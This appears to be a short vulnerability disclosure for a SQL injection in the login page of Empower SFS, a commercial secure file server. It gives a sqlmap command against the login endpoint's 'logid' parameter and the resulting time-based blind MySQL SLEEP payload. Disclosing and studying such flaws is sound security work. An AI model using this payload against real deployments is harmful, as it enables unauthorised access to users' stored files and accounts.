 Empower SFS Sql Injection

https://www.mocomsys.com/mpower-sfs

Empower Secure File Server is a network-based secure file management solution that can use central storage to store/view/edit documents or files, and share or collaborate with multiple users. You can easily connect in various network environments through the web version and dedicated connectors.



## sqlmap:
```
sqlmap -u "url/mpowerweb_eng/login/log_check.php?mode=login" --data="logid=admin&pwd=jgCeiwZXnWM7LBm3jZU%3D" -p "logid" --risk 3
```
```
Parameter: logid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: logid=admin' OR (SELECT 9604 FROM (SELECT(SLEEP(5)))EDTP) AND 'nibW'='nibW&pwd=jgCeiwZXnWM7LBm3jZU=
```

![image-20240816123354426](imgs/Empower SFS-sql injection/image-20240816123354426.png)
